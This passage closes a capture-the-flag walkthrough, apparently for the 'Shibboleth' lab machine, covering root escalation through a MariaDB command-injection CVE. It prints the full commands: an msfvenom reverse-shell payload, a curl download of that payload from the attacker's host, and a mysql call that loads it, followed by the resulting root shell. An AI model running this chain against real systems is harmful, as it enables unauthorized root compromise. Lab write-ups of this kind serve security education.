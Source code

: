 Unfortunately, these hash values are not crackable. Seach around MariaDB 10.3.25 and find [CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928) to have a command injection.

![image-20240204041412557](./Shibboleth.assets/image-20240204041412557.png)

**Exploit**:

```console
# local host: create revshell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f elf-so -o 
a.so
# remote host: download so file and make use of it through mysql
curl http://10.10.14.14/a.so -o /dev/shm/a.so
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/dev/shm/a.so";'
```

```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.124] 48348
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux shibboleth 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> web recon: zabbix & impi -> impi version with remote hash retrieval -> crack hash to get zabbix page credential -> authenticated zabbix run system command -> zabbix rev shell -> cracked password to login as impi-svc shell -> mysql with root-priv & mysql version with rce cve -> root shell
